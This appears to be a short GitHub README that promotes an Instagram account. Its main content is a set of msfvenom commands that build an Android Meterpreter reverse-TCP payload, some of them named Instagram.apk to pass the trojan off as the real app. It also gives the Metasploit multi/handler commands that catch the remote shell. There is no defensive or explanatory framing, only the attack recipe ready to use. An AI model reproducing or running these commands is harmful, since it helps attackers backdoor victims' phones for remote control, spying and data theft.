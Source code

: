 
##  WELCOME 🤗😊
# Instagram account 
👉[![Instagram  ](https://img.shields.io/badge/INSTAGRAM-FOLLOW-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/shubhamg0sain)👈
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.41.217.209 LPORT=4444 R> Instagram.apk





msfvenom -p android/meterpreter/reverse_tcp LHOST=100.95.197.169 LPORT=4444 R> Instagram.apk












msfvenom -p android/meterpreter/reverse_tcp LHOST=10.41.253.179 LPORT=4444 R> payload.apk


use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 100.95.197.169
set LPORT 4444 
exploit





